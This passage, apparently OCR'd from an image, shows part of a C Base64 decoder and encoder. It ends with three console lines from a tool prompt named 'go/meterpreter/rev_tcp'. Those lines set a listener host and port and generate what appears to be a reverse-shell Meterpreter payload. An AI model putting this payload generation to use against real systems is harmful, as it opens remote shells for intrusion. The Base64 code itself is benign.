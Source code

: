 ```c

    bufout = (unsigned char *)bufplain;
    bufin = (const unsigned char *)bufcoded;

    while (nprbytes > 4) {
        *(bufout++) =
            (unsigned char)(pr2six[*bufin] << 2 | pr2six[bufin[1]] >> 4);
        *(bufout++) =
            (unsigned char)(pr2six[bufin[1]] << 4 | pr2six[bufin[2]] >> 2);
        *(bufout++) =
            (unsigned char)(pr2six[bufin[2]] << 6 | pr2six[bufin[3]]);
        bufin += 4;
        nprbytes -= 4;
    }

    /* Note: (nprbytes == 1) would be an error, so just ingore that case */
    if (nprbytes > 1) {
        *(bufout++) =
            (unsigned char)(pr2six[*bufin] << 2 | pr2six[bufin[1]] >> 4);
    }
    if (nprbytes > 2) {
        *(bufout++) =
            (unsigned char)(pr2six[bufin[1]] << 4 | pr2six[bufin[2]] >> 2);
    }
    if (nprbytes > 3) {
        *(bufout++) =
            (unsigned char)(pr2six[bufin[2]] << 6 | pr2six[bufin[3]]);
    }

    *(bufout++) = '\0';
    nbytesdecoded -= (4 - nprbytes) & 3;
    return nbytesdecoded;
}

static const char basis_64[] =
"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";

int Base64encode_len(int len)
{
    return ((len + 2) / 3 * 4) + 1;
}

int Base64encode(char *encoded, const char *string, int len)
{
    int i;
    char *p;

    p = encoded;
    for (i = 0; i < len - 2; i += 3) {
        *p++ = basis_64[(string[i] >> 2) & 0x3F];
        *p++ = basis_64[((string[i] & 0x3) << 4) |
            ((int)(string[i + 1] & 0xF0) >> 4)];
        *p++ = basis_64[((string[i + 1] & 0xF) << 2) |
            ((int)(string[i + 2] & 0xC0) >> 6)];
        *p++ = basis_64[string[i + 2] & 0x3F];
    }
    if (i < len) {
        *p++ = basis_64[(string[i] >> 2) & 0x3F];
        if (i == (len - 1)) {
            *p++ = basis_64[((string[i] & 0x3) << 4)];
            //    *p++ = '=';
        }
        else {
```

[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate